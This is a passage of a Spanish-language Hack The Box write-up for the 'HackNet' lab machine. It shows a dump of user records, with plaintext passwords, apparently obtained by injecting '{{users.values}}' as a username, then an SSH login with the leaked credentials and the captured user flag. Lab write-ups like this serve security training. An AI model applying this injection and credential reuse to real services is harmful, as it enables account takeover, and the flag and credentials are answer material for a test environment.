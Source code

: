 ```code
 'is_hidden': False, 'two_fa': False}, {'id': 24, 'email': 'brute_force@ciphermail.com', 'username': 'brute_force', 'password': 'BrUt3F0rc3#', 'picture': '24.jpg', 'about': 'Specializes in brute force attacks and password cracking. Loves the challenge of breaking into locked systems.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': False, 'two_fa': False}, {'id': 25, 'email': 'shadowwalker@hushmail.com', 'username': 'shadowwalker', 'password': 'Sh@dowW@lk2024', 'picture': '25.jpg', 'about': 'A digital infiltrator who excels in covert operations. Always finds a way to walk through the shadows undetected.', 'contact_requests': 0, 'unread_messages': 0, 'is_public': False, 'is_hidden': False, 'two_fa': False}, {'id': 33, 'email': 'w@w.com', 'username': '{{users.values}}', 'password': 'p123', 'picture': 'profile.png', 'about': '', 'contact_requests': 0, 'unread_messages': 0, 'is_public': True, 'is_hidden': True, 'two_fa': False}]>"
```

Obtuvimos credenciales de todos los usuarios. Ordenamos en archivos separados y propagamos por ssh para ver quien tiene acceso.

#### Paso 2: Acceso inicial

Hay dos usuarios con las siguientes credenciales:

|email | user | pass |
|------|------|------|
|deepdive@hacknet.htb |	deepdive | D33pD!v3r |
|mikey@hacknet.htb |backdoor_bandit |mYd4rks1dEisH3re|

Ambos parecen tener un mail corporativo.. podemos descartar el resto e intentar acceder por ssh con sus mails y credenciales.

```bash
ssh mikey@hacknet.htb                           
The authenticity of host 'hacknet.htb (10.10.11.85)' can't be established.
ED25519 key fingerprint is SHA256:TVT7HGjgzl5Wk42d9xFlPlDUwhNCWjWA5Cdz6MdUC9o.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'hacknet.htb' (ED25519) to the list of known hosts.
mikey@hacknet.htb's password: 
Linux hacknet 6.1.0-38-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.147-1 (2025-08-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Sep 25 18:44:27 2025 from 10.10.14.22
mikey@hacknet:~$ 
```

* Obtenemos el user flag:

```bash
mikey@hacknet:~$ cat user.txt 
d02f07a89f30f6500dd95bdf1c852412
```
